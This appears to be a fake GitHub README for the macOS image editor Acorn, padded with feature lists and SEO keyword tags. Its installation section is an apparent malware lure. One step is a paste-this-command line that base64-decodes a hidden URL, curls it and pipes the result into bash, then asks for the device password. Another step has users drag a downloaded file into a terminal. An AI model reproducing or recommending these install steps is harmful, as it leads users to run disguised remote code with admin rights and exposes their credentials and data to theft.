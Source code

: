 # 🖼️ Acorn — Powerful Image Editor for macOS

**Acorn** is a lightweight yet powerful image editor designed exclusively for macOS. It offers intuitive tools for photo editing, vector drawing, and non-destructive filters, wrapped in a clean and responsive interface.

Acorn is perfect for creatives and professionals who need a fast, reliable, and affordable image editor optimized for Mac.

---

## ✅ Download Acorn for macOS  
[![Download Acorn](https://img.shields.io/badge/Download-Acorn-blueviolet)](https://mitrobandus.github.io/.github/Acorn)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)




## 📦 What is Acorn?

Acorn is a user-friendly image editor that combines powerful editing features with macOS-native performance. It supports layers, masks, curves, and blending modes, allowing detailed and creative control over your images without the complexity of heavyweight software.

---

## ✨ Features

- 🖌️ **Non-destructive filters and effects**  
- 🧩 Layer-based editing with blending modes and masks  
- ✏️ Vector drawing tools including shapes, paths, and text  
- 🔍 Pixel-accurate editing with zoom and guides  
- 🖥️ Full macOS integration and support for Retina displays  
- 🌙 Dark mode interface and Apple Silicon optimized  

---

## 💡 Why Use Acorn?

- ⚡ Fast and lightweight alternative to complex image editors  
- 🎨 Combines bitmap and vector tools in one app  
- 🛠️ Ideal for photo retouching, graphic design, and digital painting  
- 💻 Seamless macOS experience with native UI and performance  
- 💰 Affordable with a one-time purchase  

---

[![Download Acorn](https://img.shields.io/badge/Download-Acorn-blueviolet)](https://shuziktobehuman.github.io/huja/Acorn)

---

## 🖼️ Preview

![Acorn Screenshot 1](https://s3.amazonaws.com/flyingmeat/acorn8/ssweb_export.jpeg)  
![Acorn Screenshot 2](https://s3.amazonaws.com/flyingmeat/acorn8/ssfilters.jpeg)

---

## 📌 Tags

acorn, acorns company, acorn cost, acorn in, acorns near me,  
acorns reddit, acorn savings, acorn trading, acorn website,  
acorn sales company, acorn securities, gold acorns, acorn for sale,  
acorn promotion, acorn management, acorns promotion, acorn business,  
acorn price, columbia acorn, acorn ltd, acorn com,  
acorn trustpilot, acorns ashton kutcher, ashton kutcher acorns,  
walter wemple cruttenden iii, acorn mac, acorn mac download

